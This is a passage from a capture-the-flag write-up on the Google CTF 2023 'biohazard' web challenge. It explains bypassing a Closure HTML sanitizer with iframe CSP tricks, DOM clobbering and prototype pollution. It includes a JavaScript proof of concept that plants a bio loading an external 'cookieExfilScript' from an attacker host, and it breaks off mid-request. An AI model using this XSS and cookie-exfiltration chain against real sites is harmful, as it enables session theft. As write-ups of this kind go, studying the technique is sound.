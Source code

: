 If we can overwrite the `editor` variable, we can trigger an XSS!

If you take a look at the Closure sanitizer config, you will notice that `<iframe>` is specifically allowed.

```js
var Const = goog.string.Const;
var unsafe = goog.html.sanitizer.unsafe;
var builder = new goog.html.sanitizer.HtmlSanitizer.Builder();
builder = unsafe.alsoAllowTags(
    Const.from('IFRAME is required for Youtube embed'), builder, ['IFRAME']);
sanitizer = unsafe.alsoAllowAttributes(
    Const.from('iframe#src is required for Youtube embed'), builder,
    [
      {
      tagName: 'iframe',
      attributeName: 'src',
      policy: (s) => s.startsWith('https://') ? s : '',
      }
    ]).build();
```

You can use the `csp` attribute in iframe to block certain resources inside iframe (using CSP), if the page inside iframe is same-origin as parent (similar to the [XSS Auditor](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection#:~:text=This%20code%20is,unsafe%20debug%20code.) primitive). Therefore, you can block `bootstrap.js` from loading.

```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```

### Defining `editor`

Since the `editor` variable is undefined inside the iframe, we just need to define it. There are 2 ways of doing this.

1. Use HTML injection to define `editor` using DOM clobbering.
2. Use Prototype Pollution to define `editor`.

Note that since the `editor` script will be only loaded outside of `/view/` path, the iframe has to point to something else, such as `/views/view/`. This is possible because the challenge is an SPA and always configured to load the main page no matter what the URL is.

Here are the PoCs for creating XSS bio, by running script in the challenge page.

DOM clobbering:

```js
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<a id=editor href=${cookieExfilScript}></a><a id=editor></a>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* ID": true}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
```